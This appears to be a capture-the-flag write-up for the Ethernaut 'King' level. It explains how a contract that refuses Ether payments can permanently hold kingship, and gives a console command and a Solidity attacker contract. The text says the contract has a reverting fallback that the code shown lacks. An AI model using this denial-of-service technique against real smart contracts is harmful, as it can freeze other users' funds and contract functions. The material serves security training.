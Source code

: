 # 👑

The goal of this level is to prevent the contract from regaining kingship when you submit your instance back, which it does in it's fallback function.

When we send ether to another contract, we depend on said contract to correctly handle the transaction. So, if we want the `King` contract to not reclaim kingship, *we need to force it to mishandle a transaction*.

Here are 3 ways a transaction may fail:
1. The receiving contract doesn't have a payable fallback function - will throw an error.
2. The receiving contract has a malicious payable fallback - will throw an exception.
3. The receiving contract has a malicious payable function that consumes tons of gas - will fail or over-consumes your gas limit.

To solve this challenge, we'll go with number 2 above.

We can see in the contract that kingship is switched in the `receive` function. The key thing to notice is that the previous `king` is sent eth via `transfer(msg.value)` - what if the previous `king` doesn't have a fallback or `receive` function? Ding ding ding.

## Solution
1. Check how much wei is required to claim kingship
```javascript
// in your console
await contract.prize().then(v => v.toString())
// Output: '1000000000000000'
```
2. Create a malicious contract in Remix. Here, we create a single payable fallback function which immediately reverts the transaction and stops the switch of kingship.

```javascript
contract Caligula {
    // pass your contract instance to _oldKing
    function claimTheThrone(address payable _oldKing) public payable {
        // make sure to send enough wei to overtake the current king
        (bool sent, ) = _oldKing.call{value: msg.value}("");
        if(!sent) revert("mine now");
    }

}
```